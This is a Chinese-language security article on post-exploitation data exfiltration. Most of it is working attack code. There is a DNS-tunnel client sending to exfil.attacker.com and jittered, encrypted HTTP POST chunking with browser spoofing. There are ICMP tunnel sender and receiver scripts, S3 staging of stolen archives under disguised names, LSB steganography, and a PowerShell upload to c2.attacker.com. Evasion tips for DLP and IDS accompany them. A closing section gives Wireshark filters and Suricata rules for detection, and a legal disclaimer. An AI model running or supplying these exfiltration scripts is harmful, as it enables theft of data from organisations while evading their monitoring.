



## 前言

在后渗透阶段，攻击者已获得目标网络立足点，核心任务之一便是**数据窃取与外传（Data Exfiltration）**。无论窃取的是数据库凭证、商业机密还是PII，攻击者都需要将数据从内网安全传输到外部，同时规避DLP、IDS/IPS和流量审计。

本文梳理主流数据外传技术——分割压缩加密传输、DNS隧道、HTTP分块、ICMP隧道、云存储中转和反检测打包，并从防守视角介绍Wireshark流量分析检测方法。

---

## 一、外传通道选择矩阵



| 外传方式 | 带宽 | 隐蔽性 | 适用场景 |
|----------|------|--------|----------|
| HTTP/HTTPS POST | 高 | 中 | 通用 |
| DNS隧道 | 低 | 高 | 严格防火墙 |
| ICMP隧道 | 低 | 中 | 允许ICMP |
| 云存储API | 高 | 高 | 目标用云服务 |
| WebSocket | 高 | 中 | 长连接 |

---

## 二、分割压缩加密传输

直接传输大文件极易触发DLP，攻击者采用"先压缩、再分割、后加密"策略：

```bash
tar -czf - /target/data/ | split -b 50M - data_part_   # 每卷50MB
```

```python
import os
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

KEY = os.urandom(32)
IV  = os.urandom(16)

def encrypt_file(filepath):
    cipher = AES.new(KEY, AES.MODE_CBC, IV)
    with open(filepath, 'rb') as f:
        plaintext = f.read()
    ciphertext = cipher.encrypt(pad(plaintext, AES.block_size))
    with open(filepath + '.enc', 'wb') as f:
        f.write(IV + ciphertext)

for part in ['data_part_aa', 'data_part_ab', 'data_part_ac']:
    encrypt_file(part)
```

将加密分卷通过不同通道交错发送，降低单通道流量异常风险：分卷1走HTTPS POST（主通道），分卷2走DNS隧道（备用通道），分卷3走WebSocket（辅助通道）。

---

## 三、DNS隧道数据外传

DNS查询通常不被防火墙拦截。数据编码进子域名，由攻击者控制的权威DNS服务器接收。

```
内网主机 → DNS查询: base64payload.attacker.com → 递归DNS → C2权威DNS
```

### 客户端实现

```python
import base64, time, dns.resolver

DOMAIN = "exfil.attacker.com"

def dns_exfil(data: bytes):
    encoded = base64.b64encode(data).decode()
    chunks = [encoded[i:i+60] for i in range(0, len(encoded), 60)]
    for idx, chunk in enumerate(chunks):
        query = f"{idx}.{chunk}.{DOMAIN}"
        try:
            dns.resolver.resolve(query, 'A')
        except dns.resolver.NXDOMAIN:
            pass
        time.sleep(0.5)
```

### 记录类型容量

| 记录类型 | 上行容量 | 下行容量 | 方向 |
|----------|----------|----------|------|
| A/AAAA   | ~60B    | ~4B     | 外传 |
| TXT      | ~60B    | ~255B   | 下发 |
| CNAME    | ~60B    | ~255B   | 下发 |

---

## 四、HTTP POST分块传输

分块传输编码（Chunked Transfer Encoding）将数据拆分发送，模拟正常Web交互。

### 带抖动与加密的分块外传

```python
import requests, time, random, zlib
from Crypto.Cipher import AES

def chunked_exfil(filepath, url, chunk_size=4096):
    with open(filepath, 'rb') as f:
        data = zlib.compress(f.read(), level=9)

    key, iv = b'\x01'*16, b'\x02'*16
    cipher = AES.new(key, AES.MODE_CBC, iv)
    encrypted = cipher.encrypt(data + b'\x00' * (16 - len(data) % 16))

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
        'Content-Type': 'application/octet-stream'
    }

    total = len(encrypted)
    for offset in range(0, total, chunk_size):
        chunk = encrypted[offset:offset+chunk_size]
        requests.post(url, data=chunk,
                      headers={**headers, 'X-Offset': str(offset)})
        time.sleep(random.uniform(0.5, 3.0))
```

**流量伪装：** User-Agent模仿主流浏览器、构造自然Referer链、Cookie模拟已认证会话；MIME类型变形（image/png、text/css）；请求间隔0.5-5秒随机抖动。

---

## 五、ICMP隧道数据窃取

ICMP报文不被应用层防火墙深度检查。攻击者利用Echo Request/Reply的Data字段承载数据（最多1472字节/包）。

### 发送端与接收端

```python
from scapy.all import IP, ICMP, send
import base64, time

def icmp_exfil(filepath, target_ip, chunk_size=1400):
    with open(filepath, 'rb') as f:
        data = base64.b64encode(f.read())
    for i in range(0, len(data), chunk_size):
        pkt = IP(dst=target_ip)/ICMP(type=8, seq=i//chunk_size)/data[i:i+chunk_size]
        send(pkt, verbose=False)
        time.sleep(0.3)
```

```python
from scapy.all import sniff, ICMP

sniff(filter="icmp", prn=lambda pkt: reassemble(pkt[ICMP].seq, bytes(pkt[ICMP].payload))
      if ICMP in pkt and pkt[ICMP].type == 8 else None, store=False)
```

绕过要点：控制发包速率（>20包/秒触发告警）；Payload填充"abcdef..."伪装Windows默认ping；使用ICMP type 0替代type 8逃避出站规则。

---

## 六、云存储桶作为中转站

利用合法云存储服务（S3、Azure Blob、阿里云OSS）作为中转，流量特征与正常业务一致。



### AWS S3中转

```bash
gpg --symmetric --cipher-algo AES256 stolen_data.tar.gz
aws s3 cp stolen_data.tar.gz.gpg s3://legit-bucket/backup/config.bak --storage-class STANDARD_IA
aws s3 presign s3://legit-bucket/backup/config.bak --expires-in 3600
```

隐蔽性增强：复用目标已有存储桶；文件名模仿现有规范（`log_backup_20250701.bak`）；利用生命周期策略自动删除；结合CDN域名隐藏真实桶域名。

---

## 七、反检测打包技巧

### 多层编码与LSB隐写
```bash
# 7z压缩 + AES256 + Base64伪装为日志文件
7z a -p"StrongP@ssw0rd!" -mhe=on stolen.7z /target/data/
cat stolen.7z | base64 > WindowsUpdate.log
```

```python
from PIL import Image

def stego_embed(carrier_img, payload_file, output):
    img = Image.open(carrier_img)
    pixels = list(img.getdata())
    with open(payload_file, 'rb') as f:
        payload = f.read()

    bit_idx, new_pixels = 0, []
    for px in pixels:
        if bit_idx < len(payload) * 8:
            r = (px[0] & 0xFE) | ((payload[bit_idx//8] >> (7 - bit_idx%8)) & 1)
            new_pixels.append((r, px[1], px[2]))
            bit_idx += 1
        else:
            new_pixels.append(px)
    img.putdata(new_pixels)
    img.save(output)
```

### 流量特征混淆

| 混淆技术 | 实现方法 | 对抗目标 |
|----------|----------|----------|
| 流量填充 | 随机padding字节 | 流量指纹 |
| 协议伪装 | HTTP伪装DoH | 协议白名单 |
| 时间抖动 | 正态分布间隔 | 时序分析 |
| 域名前置 | CDN IP + Host头修改 | 域名黑名单 |

### 无文件外传

```powershell
$data = Get-Content "C:\data.txt" -Raw
$b64  = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($data))
Invoke-WebRequest -Uri "https://c2.attacker.com/upload" -Method POST -Body $b64
```

---

## 八、Wireshark流量分析与检测

### 综合检测流程



### DNS隧道检测

```
dns && dns.qry.name matches "[a-zA-Z0-9+/=]{30,}"
```
```bash
tshark -r capture.pcap -Y "dns" -T fields -e dns.qry.name -e dns.qry.name.len | awk '$2 > 50'
```

**特征：** FQDN > 52字符；标签高熵（Base64特征）；短时间内大量不同子域名。

### HTTP POST外传检测

```
http.request.method == "POST" && http.content_length > 100000
```
```bash
tshark -r capture.pcap -Y "http.request.method == POST" \
  -T fields -e http.host -e http.content_length -e http.content_type | sort -n
```

**特征：** 固定间隔周期性POST；请求体熵值高；Content-Type为octet-stream无业务对应。

### ICMP隧道检测

```
icmp && data.len > 48
```
```bash
tshark -r capture.pcap -Y "icmp" -T fields -e icmp.type -e data.len | sort -t$'\t' -k2 -nr | head
```

**特征：** Payload异常大（正常32-56B，外传达1400+）；负载无固定模式；短时间大量不同Payload。

### TLS侧信道检测

```bash
tshark -r capture.pcap -Y "tls.handshake.type == 1" \
  -T fields -e tls.handshake.extensions_server_name -e tls.handshake.ja3
```

**指标：** 连接时长/数据量不匹配；SNI与IP地理位置不匹配；自签名证书；上传量远超下载量。

---

## 九、防御建议

**网络层：** DNS白名单、ICMP Payload限56B、DNS安全方案（Umbrella）、NetFlow基线、TLS Inspection。
**主机层：** EDR网络行为监控、限制Raw Socket、文件完整性监控、进程创建审计（Event ID 4688）。

**Suricata规则示例：**

```
alert dns $HOME_NET any -> any 53 (
    msg:"DNS Tunnel"; dns_query; content:".attacker.com"; nocase;
    dns_query_len:>52; threshold: type both, track by_src, count 10, seconds 60;
    sid:1000001; rev:1;
)

alert icmp $HOME_NET any -> $EXTERNAL_NET any (
    msg:"ICMP Tunnel - Large Payload"; itype:8; dsize:>200;
    threshold: type threshold, track by_src, count 20, seconds 10;
    sid:1000002; rev:1;
)
```

---

## 免责声明

> **本文仅供安全研究和防御体系建设参考。文中所有技术、代码和分析方法均用于合法的安全评估、渗透测试授权范围内的活动及企业蓝队/紫队的防御能力建设。**
>
> - 未经系统所有者书面授权，对任何系统实施本文所述技术均属违法行为，将触犯《刑法》第285条、第286条及《网络安全法》《数据安全法》《个人信息保护法》。
> - 作者不对任何滥用导致的后果承担责任。请确保获合法授权并在隔离环境中操作。
>
> **"知攻方能知防。"**

---

## 参考资料

1. MITRE ATT&CK - [T1048 Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
2. MITRE ATT&CK - [T1071 Application Layer Protocol](https://attack.mitre.org/techniques/T1071/)
3. MITRE ATT&CK - [T1567 Exfiltration Over Web Service](https://attack.mitre.org/techniques/T1567/)
4. [Wireshark Display Filter Reference](https://www.wireshark.org/docs/dfref/)
